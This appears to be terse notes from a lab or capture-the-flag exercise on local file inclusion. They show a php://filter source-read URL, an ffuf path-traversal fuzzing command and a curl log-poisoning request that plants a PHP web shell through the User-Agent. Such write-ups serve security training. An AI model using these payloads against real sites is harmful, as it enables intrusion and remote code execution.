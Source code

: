 
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```
http://83.136.253.171:44707/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

```php
<?php 
	// echo '<li><a href="ilf_admin/index.php">Admin</a></li>'; 
?>
```

![[Pasted image 20241011131524.png]]

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://83.136.253.171:44707/ilf_admin/index.php?log=../../../../../FUZZ -fs 2046
```

![[Pasted image 20241011132046.png]]

```bash
curl -A '<?php system($_GET['cmd']); ?>' http://83.136.253.171:44707
```

![[Pasted image 20241011133107.png]]



